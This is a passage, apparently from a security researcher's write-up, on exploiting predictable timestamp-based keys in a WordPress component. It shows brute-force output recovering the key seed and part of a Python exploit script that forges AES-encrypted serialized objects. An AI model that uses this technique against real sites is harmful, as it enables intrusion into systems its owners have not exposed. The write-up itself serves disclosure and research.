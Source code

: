 ```python
    print("No combination found.")

print(f"Total attempts: {attempts}")
print(f"Time taken: {total_time:.2f} seconds")

```

This is the result : 

```

Starting search...
Found! r1=73, r2=78, timestamp=1741794767, r3=77 => string: 7378174179476777
Total attempts: 12909488
Time taken: 20.85 seconds

```

As can be seen from the result the timestamp `1741794767` used to generate the key has a difference of 7 seconds from the one read from the `Last Modified` header, and I think that this difference decreases as the power of the machine on which wordpress runs increases

So now how does the exploit materialize? 

I wrote a python script that generates all possible md5 keys and the corresponding serialized and encrypted AES object

```python

import hashlib
import time
from datetime import datetime, timezone
import base64
import random
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

def encrypt(plainText, password=''):
    # Prepend and append two random two-digit numbers
    plainText = str(random.randint(10, 99)) + plainText + str(random.randint(10, 99))
    
    # Method: aes-256-cbc (CBC)
    # Calculate the key: first 32 bytes of the SHA256 hash of the password (in binary mode)
    key = hashlib.sha256(password.encode()).digest()[:32]
    
    # Calculate the IV: first 16 characters of the MD5 string (in uppercase) of the password, converted to bytes
    iv = hashlib.md5(password.encode()).hexdigest().upper()[:16].encode()
    
    # Pad the text to reach multiples of 16 bytes (PKCS7)
    padded_text = pad(plainText.encode(), AES.block_size)
    
    # Create the cipher in CBC mode
    cipher = AES.new(key, AES.MODE_CBC, iv)
    encrypted_bytes = cipher.encrypt(padded_text)
    
    # Encode the encrypted result in base64
    encrypted_b64 = base64.b64encode(encrypted_bytes).decode()
    return encrypted_b64

def decrypt(encrypted, password=''):
    # Calculate the key and IV in the same way as in the encrypt function
    key = hashlib.sha256(password.encode()).digest()[:32]
    iv = hashlib.md5(password.encode()).hexdigest().upper()[:16].encode()
    
    # Decode the encrypted text from base64
```